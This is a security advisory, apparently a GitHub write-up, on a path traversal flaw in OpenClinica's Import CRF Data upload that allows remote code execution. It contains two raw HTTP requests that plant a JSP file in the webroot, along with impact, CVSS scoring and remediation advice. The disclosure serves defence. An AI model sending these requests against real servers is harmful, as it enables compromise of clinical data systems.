


# OpenClinica Import CRF Data – RCE (path traversal arbitrary file write)

A remote code execution issue via path traversal in the **Import CRF Data** workflow.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager**)

## Summary
The upload handler trusts the client-supplied `filename` and accepts `../` traversal, allowing writes outside the intended directory. By targeting the deployed webapp path, an attacker can write a JSP and achieve execution when the file is requested.

## Screenshots



## Raw requests (abridged)

**Variant 1 – relative traversal into deployed app**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

**Variant 2 – absolute path on typical Debian/Ubuntu Tomcat**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../../../../../../usr/share/tomcat/webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

Then browse to:
```
http://<target>:8080/OpenClinica/shell.jsp
```

## Impact
- Arbitrary file write on the host
- Remote Code Execution in the servlet container context
- Full compromise of confidentiality, integrity, and availability

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` → **8.8 High**  
**CWE:** 22 (Path Traversal), 434 (Unrestricted File Upload)

## Remediation
- Do not use the client `filename` to build paths. Save to a fixed, non-web-served directory with a server-generated name.
- Reject `..`, path separators, and absolute paths. Enforce content-type/extension allow-lists and validate XML server-side.
- Run Tomcat/OpenClinica as a non-privileged user; make webroots non-writable; disable JSP execution if not required.

## Timeline
- 2025-10-09 → 2025-10-23: Discovered and reproduced on 3.12.2 and 3.13 images. Evidence includes Burp requests and shell session captures.
